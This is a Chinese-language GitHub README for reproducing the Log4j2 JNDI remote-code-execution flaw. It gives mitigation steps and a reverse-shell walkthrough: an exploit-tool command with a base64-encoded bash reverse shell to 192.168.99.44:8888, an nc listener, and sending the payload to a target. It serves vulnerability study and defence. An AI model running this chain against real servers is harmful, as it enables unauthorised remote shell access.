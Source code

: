 # Apache Log4j 2 
![GitHub Workflow Status](https://img.shields.io/github/workflow/status/dbgee/log4j2_rce/rce%20CI)
[![GitHub issues](https://img.shields.io/github/issues/dbgee/log4j2_rce)](https://github.com/dbgee/log4j2_rce/issues)

Apache log4j2 开源日志组件远程代码执行

> 攻击者通过构造恶意请求，触发服务器log4j 2 日志组件的远程代码执行漏洞。漏洞无需特殊配置，经验证，最新版的补丁可以防护此问题

[官方最新补丁： log4j-2.15.0-rc2](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)

## 紧急处置方案
1. 2.10 or 以上：添加环境变量  LOG4J_FORMAT_MSG_NO_LOOKUPS="true" 或 修改jvm参数 -Dlog4j2.formatMsgNoLookups=true
2. 2.7 or 以上：log4j config file 中用%m(nolookups) 代替 %m 
3. 2.0-beta9 or 以上: 删除jar 包中的org/apache/logging/log4j/core/lookup/JndiLookup.class
4. 通过防火墙自定义规则，限制`jndi` 、`ldap`、`rmi` 等恶意payload
5. 漏洞探测大多采用dnslog 等带外方式，可以禁掉服务器主动外联权限

## 漏洞复现
[详细复现步骤参考](https://github.com/dbgee/fastjson-rce)   ，与fastjson 的复现一致，只是使用的pom 文件不同而已

* 需要注意2.14.1 不能稳定复现，建议采用2.8.x 版本

## 环境下载
[log4j2_rce-0.0.1.jar](https://github.com/dbgee/log4j2_rce/releases/tag/0.0.1) 

## 反弹shell 指引
1. 下载命令执行工具，也可以编译Exploit.java 将计算器换成Linux反弹代码，这里为了方便直接使用 [JNDI-Injection-Exploit-1.0.jar](./shell/JNDI-Injection-Exploit-1.0.jar)
2. 开启利用工具 `java -jar JNDI-Injection-Exploit-1.0.jar -C "bash -c {echo,YmFzaCAtaSA+IC9kZXYvdGNwLzE5Mi4xNjguOTkuNDQvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A  "192.168.99.44"`
    1. 命令说明：-C  指定要执行的命令，-A 指定监听端口所在IP（一般为本机IP）
    2. base64 编码部分为Linux 反弹shell  `bash -i > /dev/tcp/192.168.99.44/8888 0>&1`
    3. 将利用工具生成的jndi links 放入postman payload 中
3. 本地开启nc 监听 `nc -Lvvp 888`
4. 发送payload 到目标服务器，反弹shell 成功
5. 利用过程截图: ![利用结果](./shell/shell.png)、![服务器端输出](./shell/output.png)

